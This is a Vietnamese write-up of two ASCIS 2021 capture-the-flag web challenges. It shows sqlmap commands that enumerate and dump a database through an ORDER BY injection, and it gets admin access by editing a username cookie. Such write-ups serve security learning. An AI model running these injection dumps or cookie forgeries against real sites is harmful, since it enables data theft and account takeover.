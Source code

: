 Trong tuần qua, mình cùng với bạn của mình tham gia vòng Warmup của ASCIS 2021, mình xin được phép chia sẻ lại 2 bài web trong giải với mọi người.
## Hitech shop
Khi vào challenge, mình có thể thấy một số vùng có khả năng có lỗi sqli, ban đầu mình khá tập trung vào vùng `search` nhưng thật tiếc là với bất kì payload nào mình truyền vào cũng đều thất bại.

![](img1.png)

Mình chuyển qua phần sort, ở đây có sắp xếp theo Name và Price, chỗ này mình có gặp khó khăn, sau một hồi thì bạn mình bảo mình thử sài sqlmap đi. Mình chưa từng sài sqlmap trước đây, trước giờ mình toàn né việc phải sài sqlmap. Nhân cơ hội này thì mình sẽ thử học và sài sqlmap luôn :')))

List databases:

```
sqlmap -u http://125.235.240.166:20105/index?order=name --dbs
```
![](img3.png)

List tables of vannd database:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables
```
![](img4.png)

List colums of flag table:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables -T flag --columns
```
![](img5.png)

Dump value in secert column:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables -T flag --columns -C secret --dump
```
![](img6.png)

***Flag: ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}***

## yeuvcs

Ở challenge này, chúng ta sẽ thấy một trang đăng nhập, ở đây chúng ta có thể thấy một tùy chọn để đăng kí tài khoản

Thực hiện đăng kí một tài khoản mới và đăng nhập với tài khoản này.

![](img7.png)

Sau khi đăng nhập, chúng ta sẽ thấy một phần search, phần search này cho phép chúng ta search username của tất cả account, mình search với key là `%` để list mọi username:

![](img8.png)

Mình thấy một user có tên là sonnh, bên cạnh tên này có hình ngôi sao, rất có thể đây là admin.

Kiểm tra trong phần cookie, mình thấy có một cookie có tên là username có value là username của account chúng ta đang đăng nhập. Không biết liệu nó có work không nhưng mình vẫn thử đổi value này thành sonnh (tức admin):

![](img9.png)

Chọn `GET SECRET`, chúng ta sẽ có được flag.

***Flag: ASCIS{I_cant_find_name_for_4_fl4g}***

## End.
## _Thank you for your reading!_
